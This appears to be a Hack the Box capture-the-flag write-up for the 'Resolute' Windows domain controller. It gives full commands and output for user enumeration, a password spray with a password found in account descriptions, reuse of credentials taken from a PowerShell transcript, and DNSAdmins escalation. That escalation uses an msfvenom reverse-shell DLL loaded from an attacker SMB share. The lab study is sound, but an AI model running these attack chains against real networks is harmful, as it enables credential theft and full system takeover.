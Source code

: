 ```yaml
---
layout: post
title: Hack the Box - Resolute
author: Kolja
categories: [HtB]
tags: [ad]
---
```




## Enumeration
As done in the `HtB-Forest`  box can enumerate users using `rpcclient`:
```
rpcclient -U "" -N 10.10.10.169
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[ryan] rid:[0x451]
user:[marko] rid:[0x457]
user:[sunita] rid:[0x19c9]
user:[abigail] rid:[0x19ca]
user:[marcus] rid:[0x19cb]
user:[sally] rid:[0x19cc]
user:[fred] rid:[0x19cd]
user:[angela] rid:[0x19ce]
user:[felicia] rid:[0x19cf]
user:[gustavo] rid:[0x19d0]
user:[ulf] rid:[0x19d1]
user:[stevie] rid:[0x19d2]
user:[claire] rid:[0x19d3]
user:[paulo] rid:[0x19d4]
user:[steve] rid:[0x19d5]
user:[annette] rid:[0x19d6]
user:[annika] rid:[0x19d7]
user:[per] rid:[0x19d8]
user:[claude] rid:[0x19d9]
user:[melanie] rid:[0x2775]
user:[zach] rid:[0x2776]
user:[simon] rid:[0x2777]
user:[naoki] rid:[0x2778]
```

I also realized, that `enum4linux` displays this information too. Additionally, it gives us the descriptions of the users, which does contain the following:
```
Account created. Password set to Welcome123!
```

## Foothold
We can use the password from the description in combination with our user list to do a password spray attack:
```
crackmapexec smb -u ./userlist.txt -p 'Welcome123!' -d megabank.local 10.10.10.169       
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.10.10.169    445    RESOLUTE         [+] megabank.local\melanie:Welcome123!
```

This shows, that the `melanie` user has this password. So we now have valid credentials: `melanie/Welcome123!`

We can use these credentials to collect data using the `bloodhound-python` collector:
```
bloodhound-python -c All -u melanie@megabank.local -p 'Welcome123!' -ns 10.10.10.169 -d megabank.local -dc resolute.megabank.local
```

The collected data shows, that our owned user is in a group, that have some WMI privileges:

![wmi group](/assets/htb_resolute_wmi.png)

Additionally, we should be able to use PSRemote to gain access to the DC:

![psremote permissions](/assets/htb_resolute_psremote.png)

We can use `evil-winrm` to confirm this:
```
evil-winrm -i 10.10.10.169 -u Melanie -p 'Welcome123!' 
```

This works and after enumerating the box a bit we can find a file under:
```
C:\PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
```

This file contains credentials for an additional user:
```
>> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
```
These credentials are valid:
```
crackmapexec smb -u ./userlist.txt -p 'Serv3r4Admin4cc123!' -d megabank.local 10.10.10.169
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Administrator:Serv3r4Admin4cc123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Guest:Serv3r4Admin4cc123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\krbtgt:Serv3r4Admin4cc123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\DefaultAccount:Serv3r4Admin4cc123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [+] megabank.local\ryan:Serv3r4Admin4cc123! (Pwn3d!)
```

The data we imported into `bloodhound` tells us, that the user is in the `DNSADMINS` Group:

![DNSAdmin group](/assets/htb_resolute_dns_admin.png)

On older systems, this allowed us to escalate our privileges (this should be fixed by now). To exploit this we need a dll, which we can generate  using `msfvenom`:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.10 LPORT=4444 -f dll > test.dll
```

Afterward, we host this dll using `impacket-smbserver` and load it on the target system with the following commands:
```
dnscmd Resolute /config /serverlevelplugindll \\10.10.14.10\kali\test.dll;sc.exe stop dns;sc.exe start dns
```
This gives us a system shell:
```
nc -lvp 4444
listening on [any] 4444 ...
connect to [10.10.14.10] from resolute.megabank.local [10.10.10.169] 49684
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```
